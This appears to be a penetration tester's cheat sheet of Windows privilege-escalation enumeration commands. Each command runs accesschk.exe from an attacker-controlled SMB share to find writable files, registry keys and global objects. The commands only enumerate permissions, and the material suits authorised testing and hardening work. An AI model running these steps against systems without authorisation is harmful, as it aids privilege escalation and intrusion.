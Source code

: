 ### Write access to file for Users
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -uwdqs "Users" "C:" /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2003-xp.exe -uwdqs "Users" "C:\" /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2008-vista.exe -uwdqs "Users" "C:\" /accepteula
```

### Write access to file for Authenticated Users
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -uwdqs "Authenticated Users" "C:\" /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2003-xp.exe -uwdqs "Authenticated Users" "C:\" /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2008-vista.exe -uwdqs "Authenticated Users" "C:\" /accepteula
```

### Write access to file for Everyone
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -uwdqs "Everyone" "C:\" /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2003-xp.exe -uwdqs "Everyone" "C:\" /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2008-vista.exe -uwdqs "Everyone" "C:\" /accepteula
```

### List file with explicit integrity levels 
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -e -s c:\users\mark /accepteula
```

## Registry Permissions

### Registry keys under Hhklm\software user has write access to
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -kws user hklm\software /accepteula
```
### Security of hklm\software
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -k hklm\software  /accepteula
```

### Global objects everyone can modify
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -wuo Everyone \basednamedobjects /accepteula
```
